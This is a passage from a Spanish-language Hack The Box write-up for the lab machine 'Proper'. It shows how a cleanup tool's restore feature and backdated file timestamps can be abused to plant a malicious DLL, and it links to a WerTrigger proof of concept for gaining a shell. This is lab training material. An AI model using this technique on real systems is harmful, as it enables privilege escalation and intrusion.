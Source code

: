 ```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Proper/content$ echo -n "QzpcVXNlcnNcd2ViXERvd25sb2Fkc1xkZXNrdG9wLmluaQ==" | base64 -d                                                    
C:\Users\web\Downloads\desktop.ini
```
![imagen11](/assets/images/Proper/proper11.png)

Podemos ver que aparte de la función que tiene de CLEAN tiene otra de RESTORE que se puede utilizar con -R.

```powershell
PS C:\Program files\Cleanup> .\client.exe -R C:\Users\web\Downloads\desktop.ini
Restoring C:\Users\web\Downloads\desktop.ini
PS C:\Program files\Cleanup> dir C:\Users\web\Downloads


    Directory: C:\Users\web\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         5/1/2023  11:39 AM            282 desktop.ini                                                           ¿
```
Al parecer el restore lee el hash en el directorio para que coincida con el output de la ruta introducida para recuperar el archivo borrado por clean. Podemos abusar de esto insertando un archivo dll malicioso para que nos abra un puerto y así conectarnos. Al meter archivos directamente a la carpeta de download y ejecutar client.exe no lo borra, esto porque dentro del código menciona que solo borrará archivos que tienen más de 30 días, podemos cambiar los metadatos para que no lo reconozca.

```powershell
PS > cat .\Downloads\test.txt
this is a test
PS > $(Get-Item .\Downloads\test.txt).LastWriteTime = $(Get-Date "1/1/2021 6:00 am")
PS > $(Get-Item .\Downloads\test.txt).LastAccessTime = $(Get-Date "1/1/2021 6:00 am")
PS > $(Get-Item .\Downloads\test.txt).CreationTime = $(Get-Date "1/1/2021 6:00 am")
```
Para obtener la conexión haremos uso de este [repositorio](https://github.com/sailay1996/WerTrigger) y seguimos los pasos mencionados en el POC.
